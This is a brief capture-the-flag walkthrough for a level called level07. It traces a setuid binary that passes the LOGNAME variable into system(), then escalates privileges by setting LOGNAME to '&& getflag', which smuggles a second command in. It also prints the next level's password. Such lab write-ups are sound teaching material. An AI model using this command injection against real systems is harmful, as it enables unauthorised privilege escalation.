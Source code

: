 In our home directory there is an executable file level07 with uid flag07.
We can use `ltrace` to take a look at the functions called in this executable.

    ltrace ./level07

![](./img/ltrace.png)

There use `getenv("LOGNAME)` and get value of this environment variable, then with `asprintf` fill a string. In conclusion `system()`
call `/bin/echo` with a parameter `level07`. Let's make sure, program print value of LOGNAME

    echo $LOGNAME
    ./level07

![](./img/logname.png)

Yes, this is right. We can replace LOGNAME value to `getflag`.
So level07 execute with flag07 permissions, we will get password from level08.

    export LOGNAME="&& getflag"
    ./level07

![](./img/exploit.png)

We get password for level08: `fiumuikeil55xe9cu4dood66h`